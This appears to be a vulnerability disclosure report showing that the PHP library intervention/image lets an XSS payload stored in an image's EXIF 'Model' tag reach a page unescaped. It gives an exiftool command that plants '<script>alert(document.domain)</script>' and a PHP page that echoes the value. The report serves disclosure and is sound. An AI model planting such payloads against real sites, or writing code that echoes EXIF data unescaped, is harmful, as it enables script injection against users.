 # Description

`intervention/image` is an image handling and manipulation library. This package is vulnerable to XSS via reading the exif data from image.

# POC

1. Create a project dir in your htdocs folder
2. Install the package using composer. [here](http://image.intervention.io/getting_started/installation)
3. Create the image payload using any exiftool. But below is how I created it
```
1. Download exiftool using this tool(https://exiftool.org/)
2. Install it(https://exiftool.org/install.html)
3. Modify the image to add 'Model' key then value '<script>alert(document.domain)</script>'
4. Open terminal -> change directory to where the image is located
5. run this command 'exiftool -Model="<script>alert(document.domain)</script>" imagefilename.jpg
6. Move it in your project root dir
```
4. Create a page.php file on your project root dir then copy and paste this code below
```
<?php
require 'vendor/autoload.php';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

$filename = "./imagefilename.jpeg";

// read all existing data into an array
$data = Image::make($filename)->exif();

// read model of the camera
$name = Image::make($filename)->exif('Model');

echo $name;
```
5. Open terminal in your project root dir, then run command `php -S 127.0.0.1:8080`
6. Open a browser then navigate to `http://127.0.0.1:8080/page.php` to trigger the XSS payload



